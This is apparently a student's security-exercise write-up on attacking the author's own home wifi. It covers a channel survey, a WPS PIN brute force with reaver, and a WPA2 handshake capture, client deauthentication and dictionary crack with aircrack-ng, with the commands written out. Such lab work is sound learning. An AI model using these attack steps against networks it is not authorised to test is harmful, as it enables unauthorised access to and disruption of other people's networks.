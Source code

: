 ```yaml
---
title: "Sikkerhetsøving 17: Wifi"
author: Tore Bergebakken
---
```


# Hacking wireless networks

## Channel usage

Used Network Analyzer (an open-source app for Android) to see how occupied the channels around my apartment were.

Because of the intense activity around channel 11, and the relative vacancy around channel 6, I would pick **channel 6** for a new network.

![a lot of networks](img/wifi.png){ width=250px }

Note to self: Could have used `nmcli d wifi`.

## WPS

Since my network used WPS, I figured it'd be interesting to try cracking the WiFi password through this attack vector.

Using `reaver` and components of `aircrack-ng` like in
[this guide](https://linuxconfig.org/break-wps-and-find-your-wifi-password-with-reaver)
yielded some results.

Initial detection on wireless card `$WL`:

+ `airmon-ng start "$WL"` → virtual interface `$MON`
+ `airodump-ng "$WL"` → find `$BSSID` and channel

Then finally, after running

```sh
reaver -i "$MON" -d 10 -S -N -vv -b "$BSSID"
```

for several hours, the PIN should be cracked.

I did try exploiting WPS, but kept getting rate limited -- and in the setup for the router, WPS did not seem to be enabled.

In any case, I would disable monitor mode with `airmon-ng stop "$MON"`.

## WPA2

Bruteforcing the WiFi password? Well, that's gonna take a looong time.
However, if I add the actual password to the dictionary used for the attack...
This is just a demonstration, anyway.

I followed some guides on the `aircrack-ng` wiki:

+ [How to crack WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
+ [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)

Compiled steps, with `$CHAN` set to the network's channel:

An optional test with e.g. `aireplay-ng -"$CHAN" "$WL"` to check if you can inject anything at all.

1. Set your interface in monitor mode with `airmon-ng start "$WL" "$CHAN"` like above.
2. Possibly capture handshakes with `airodump-ng -c "$CHAN" --bssid "$BSSID" -w psk "$MON"`
   + Look for a client's MAC address
3. Deauthenticate some client with ` aireplay-ng -0 1 -a "$BSSID" -c "$CLIENT_MAC" ath0` and get a handshake quickly
   + The MAC address was gathered in the previous step
   + Check if the client received your packet with `tcpdump`
   + This gives some `psk` files
4. Actually crack the WPA key with `aircrack-ng -w password.lst -b "$BSSID" psk*.cap` or `aircrack-ng -b "$BSSID" psk*.cap < passwords.txt`
   + The WPA key _has_ to be among the passords in your dictionary
   + The `password.lst` file is in the `test` dir of aircrack's source.
   + In my case, I **put the actual password inside the dictionary** since this is all for the sake of demonstration and I know the key already.

![With a password list consisting of _just_ the correct password](img/password.png){ width=500px }

![Unsuccessful run with Kali's built-in `/usr/share/wordlists/nmap.txt`](img/common.png){ width=500px }
